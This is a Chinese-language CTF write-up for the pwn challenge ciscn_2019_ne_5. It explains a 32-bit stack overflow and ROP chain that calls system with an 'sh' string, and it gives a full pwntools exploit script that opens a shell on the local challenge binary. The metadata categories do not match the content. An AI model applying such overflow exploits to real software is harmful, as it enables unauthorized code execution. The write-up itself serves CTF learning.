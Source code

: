 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20231228210913917](../assets/img/old_imgs/image-20231228210913917.png)

- `32`位`ROP`劫持

- 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  ![image-20231228211113719](../assets/img/old_imgs/image-20231228211113719.png)

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```